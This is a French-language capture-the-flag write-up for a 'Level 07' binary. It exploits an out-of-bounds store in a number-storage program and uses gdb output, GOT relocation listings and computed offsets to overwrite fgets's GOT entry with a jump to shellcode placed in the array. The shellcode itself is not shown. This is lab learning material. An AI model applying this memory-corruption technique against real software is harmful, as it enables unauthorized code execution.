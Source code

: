 # Level 07
<a href="/level08"><img align='right' width=20x height=auto src="https://cdn.onlinewebfonts.com/svg/img_68680.png"></img></a>

- On peut ecrire partout dans la memoire avec store sauf tout les 3 itterations
- Il suffit donc de rediriger fgets vers un shellcode
<pre>
objdump -R ./level07 

./level07:     file format elf32-i386

DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE 
08049ff0 R\_386\_GLOB\_DAT    \_\_gmon\_start\_\_
0804a040 R\_386\_COPY        stdin@@GLIBC\_2.0
0804a060 R\_386\_COPY        stdout@@GLIBC\_2.0
0804a000 R\_386\_JUMP\_SLOT   printf@GLIBC\_2.0
0804a004 R\_386\_JUMP\_SLOT   fflush@GLIBC\_2.0
0804a008 R\_386\_JUMP\_SLOT   getchar@GLIBC\_2.0
0804a00c R\_386\_JUMP\_SLOT   fgets@GLIBC\_2.0
0804a010 R\_386\_JUMP\_SLOT   \_\_stack\_chk\_fail@GLIBC\_2.4
0804a014 R\_386\_JUMP\_SLOT   puts@GLIBC\_2.0
0804a018 R\_386\_JUMP\_SLOT   \_\_gmon\_start\_\_
0804a01c R\_386\_JUMP\_SLOT   \_\_libc\_start\_main@GLIBC\_2.0
0804a020 R\_386\_JUMP\_SLOT   memset@GLIBC\_2.0
0804a024 R\_386\_JUMP\_SLOT   \_\_isoc99\_scanf@GLIBC\_2.7
</pre>

- On ne peut pas rediriger vers l'environnement ni vers les arguments car il sont supprimé
- Il faut donc rediriger vers le tableau sur le quelle ont ecrit
- L'addresse du tableau ne figurant pas a dans le ltrace. Il faut donc la calculer en trouvant la difference en tre un variable fixe et le premiere index de notre tableau
- Dans gdb on print donc ces deux addresses
<pre>
(gdb) b *0x08048887
Breakpoint 1 at 0x8048887
(gdb) b *0x80486cb
Breakpoint 2 at 0x80486cb
(gdb) r
Starting program: /home/users/level07/level07 
----------------------------------------------------
  Welcome to wil's crappy number storage service!   
----------------------------------------------------
 Commands:                                          
    store - store a number into the data storage    
    read  - read a number from the data storage     
    quit  - exit the program                        
----------------------------------------------------
   wil has reserved some storage :>                 
----------------------------------------------------

Input command: store

Breakpoint 1, 0x08048887 in main ()
(gdb) x $eax
0xffffd5e8:     0x726f7473  # retou de fgets
(gdb) c
Continuing.
 Number: 123
 Index: 1

Breakpoint 2, 0x080486cb in store_number ()
(gdb) x $eax
0xffffd458:     0x00000000 # index 1 du tableau

Input command: store
 Number: 1
 Index: -2

Breakpoint 2, 0x080486cb in store_number ()
(gdb) x $eax
0xffffd44c:     0xffffd6b8 # index -2 du tableau
</pre>
- On peut faire nos calcul de difference:
 - pour 1: 0xffffd5e8 - 0xffffd458 = 0x190 = 400
 - pour -2: 0xffffd5e8 - 0xffffd44c = 0x19c = 412
- Se qui donne:
 - tab[1]: 0xffffd608 - 0x190 = 0xffffd478
 - tab[x] = Address fgets = ((0x0804a00c - (0xffffd608 - 0x19c)) / 4) - 2 = -1040108826
- Apres j'ai créé un programme qui modifie un shellcode en lui ajouter des jump se qui lui permet de jump tout les 3 index
- Puis qui le converti en entrée compatible avec programme
- Et voila il suffit apres cela d'executer le tout
